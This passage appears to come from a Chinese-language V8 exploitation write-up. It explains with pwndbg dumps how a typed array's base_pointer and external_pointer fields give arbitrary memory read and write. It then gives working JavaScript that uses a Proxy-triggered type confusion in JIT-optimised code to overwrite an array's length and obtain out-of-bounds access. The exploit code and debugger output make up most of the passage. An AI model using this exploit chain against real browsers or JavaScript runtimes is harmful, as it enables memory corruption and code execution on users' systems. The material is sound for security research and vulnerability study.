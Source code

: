 它的数据存储是在`data_ptr`中，`data_ptr`的表示是`base_pointer+external_pointer`：

```asm
pwndbg> print 0x80c6641+0x179a00000007
$171 = 0x179a080c6648
pwndbg> x/4gx 0x179a080c6648
0x179a080c6648: 0x1122334455667788      0xaabbaabbccddccdd
0x179a080c6658: 0xdeadbeefdeadbeef      0xeeeeeeeeffffffff
```

`external_pointer`是高`32`位地址的值，`base_pointer`刚好就是相对于高`32`位地址的`4GB`堆地址的空间的偏移。初始时`external_pointer`的地址刚好是根寄存器`r13`的高`32`位。

因此我们可以通过覆盖`base_pointer`来实现`4GB`堆地址空间的任意读写；可以通过读取`external_pointer`来获取根的值；可以通过覆盖`external_pointer`和`base_pointer`的值来实现绝对地址的任意读写。

当然`Float64Array`以及`Uint32Array`的结构体差不多也是这样，但是使用`BigInt`还有一个好处就是它的数据的`64`字节就是我们写入的`64`字节，不像`float`或者是`int`一样还需要转换。

### 漏洞利用

有了上面的基础后就可以进行漏洞利用了。

首先是利用类型混淆实现将`float`数组的`length`字段覆盖称很大的值。通过前面我们可以知道`DOUBLE`数组`element`长度是`8`，而`object`数组长度是`4`。通过类型混淆在`Proxy`中将对象从`DOUBLE`数组变成`object`数组，在后续`pop`或者`push`的时候就会实现越界读写，控制好数组长度，并在后面布置数组的话，则可以刚好读写到后面数组的`length`字段，代码如下：

```js
const MAX_ITERATIONS = 0x10000;
var maxSize = 1020*4;
var vulnArray = [,,,,,,,,,,,,,, 1.1, 2.2, 3.3];
vulnArray.pop();
vulnArray.pop();
vulnArray.pop();
var oobArray;
function empty() {}
function evil(optional) {
    vulnArray.push(typeof(Reflect.construct(empty, arguments, optional)) === Proxy? 1.1: 8.063e-320);  // print (i2f(maxSize<<1)) ==> 8.063e-320
    for (let i=0; i<MAX_ITERATIONS; i++) {} // trigger optimization
}

let p = new Proxy(Object, {
    get: () => {
        vulnArray[0] = {};
        oobArray = [1.1, 2.2];
        return Object.prototype;
    }
});

function VulnEntry(func) {
    for (let i=0; i<MAX_ITERATIONS; i++) {}; // trigger optimization
    return evil(func);
}

function GetOOBArray()
{
    for(let i=0; i<MAX_ITERATIONS; i++) {
        empty();
    }
    VulnEntry(empty);
    VulnEntry(empty);
    VulnEntry(p);
}
GetOOBArray();
print("oob array length: "+oobArray.length)
```
